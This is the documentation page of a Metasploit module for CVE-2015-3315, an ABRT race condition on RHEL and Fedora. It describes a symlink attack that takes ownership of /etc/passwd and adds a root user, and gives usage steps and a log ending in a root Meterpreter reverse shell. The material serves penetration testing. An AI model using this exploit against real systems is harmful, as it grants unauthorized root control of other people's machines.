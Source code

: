 ## Description

  This module attempts to gain root privileges on Linux systems with
  a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured
  as the crash handler.


## Vulnerable Application

  A race condition allows local users to change ownership of arbitrary
  files (CVE-2015-3315). This module uses a symlink attack on
  `/var/tmp/abrt/*/maps` to change the ownership of `/etc/passwd`,
  then adds a new user with UID=0 GID=0 to gain root privileges.
  Winning the race could take a few minutes.

  This module has been tested successfully on:

  * abrt 2.1.11-12.el7 on RHEL 7.0 x86_64
  * abrt 2.1.5-1.fc19 on Fedora Desktop 19 x86_64
  * abrt 2.2.1-1.fc19 on Fedora Desktop 19 x86_64
  * abrt 2.2.2-2.fc20 on Fedora Desktop 20 x86_64
  * abrt 2.3.0-3.fc21 on Fedora Desktop 21 x86_64


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/abrt_raceabrt_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **USERNAME**

  Username for the new UID=0 user (default: random)

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/abrt_raceabrt_priv_esc 
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Writing '/tmp/.C17d3UYQy' (64240 bytes) ...
  [*] Trying to own '/etc/passwd' - This might take a few minutes (Timeout: 900s) ...
  [+] Success! '/etc/passwd' is writable
  [*] Adding pauITBusGM user to /etc/passwd ...
  [*] Writing '/tmp/.u8zOz4c' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:38938) at 2018-02-03 21:29:56 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

